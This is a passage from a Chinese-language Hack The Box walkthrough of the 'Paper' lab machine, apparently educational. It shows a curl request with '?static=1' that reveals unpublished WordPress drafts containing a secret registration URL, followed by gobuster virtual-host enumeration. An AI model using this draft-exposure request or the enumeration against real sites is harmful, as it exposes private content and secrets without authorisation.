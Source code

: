 我们可以把 static=1 作为一个参数来查看这个秘密。使用 html2text 使其在终端中更具可读性:

```
┌──(root💀kali)-[~/htb/paper]
└─# apt install html2text             
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
html2text is already the newest version (1.3.2a-28).
0 upgraded, 0 newly installed, 0 to remove and 135 not upgraded.
```

# 查看 Wordpress 草稿

现在用 curl 抓住这个秘密，并传递给 html2text 来阅读它:

```
┌──(root💀kali)-[~/htb/paper]
└─# curl -s http://office.paper/?static=1 | html2text
Skip_to_content
[Blunder_Tiffin_Inc.]
******_Blunder_Tiffin_Inc._******
The_best_paper_company_in_the_electric-city_Scranton!
<SNIP>
# Warning for Michael
Michael, you have to stop putting secrets in the drafts. It is a huge security
issue and you have to stop doing it. -Nick
Threat Level Midnight
A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT
[INT:DAY]
Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His
robotic butler Dwigt….
# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
# I am keeping this draft unpublished, as unpublished drafts cannot be accessed
by outsiders. I am not that ignorant, Nick.
# Also, stop looking at my drafts. Jeez!
<SNIP>
```

我们也可以扫描 vhosts 来找到该子域:

```
┌──(root💀kali)-[~/htb/paper]
└─# gobuster vhost -t 100 -k -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://office.paper
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://office.paper
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/02/06 16:47:28 Starting gobuster in VHOST enumeration mode
===============================================================
Found: chat.office.paper (Status: 200) [Size: 223163]
<SNIP>
```
